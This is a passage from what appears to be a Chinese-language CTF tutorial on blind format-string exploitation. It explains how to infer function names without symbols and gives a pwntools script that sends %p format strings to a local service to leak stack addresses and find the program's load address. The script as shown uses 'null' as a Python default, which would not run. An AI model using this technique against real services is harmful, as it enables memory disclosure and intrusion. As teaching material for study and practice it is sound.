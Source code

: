 [![](assets/1701612281-206fee67a3cc80e469b16f10daf9cbbe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224058-1bef5e30-2579-1.png)

可以对比一下我们给出的源代码，因为是盲打，不会有函数的名称，可以根据传入参数进行判断函数名称，比如 sub\_8048490 就是 printf。

###### 方法二：**从.text 段开始**

先用 %p 泄露出栈上数据，找到两个相同地址，而且这个地址很靠近程序加载初地址（32 位：0x8048000；64 位：0x400000）。

load.py

```bash
from pwn import *
import sys

p = remote('127.0.0.1',11112)

p.recv()
p.sendline('nameaaa')
p.recv()

def where_is_start(ret_index=null):
    return_addr=0
    for i in range(400):
        payload = '%%%d$p.TMP' % (i)
        p.sendline(payload)
        p.recvuntil('right:')
        val = p.recvuntil('.TMP')
        log.info(str(i*4)+' '+val.strip().ljust(10))
        if(i*4==ret_index):
            return_addr=int(val.strip('.TMP').ljust(10)[2:],16)
            return return_addr
        p.recvrepeat(0.2)

start_addr=where_is_start()
```
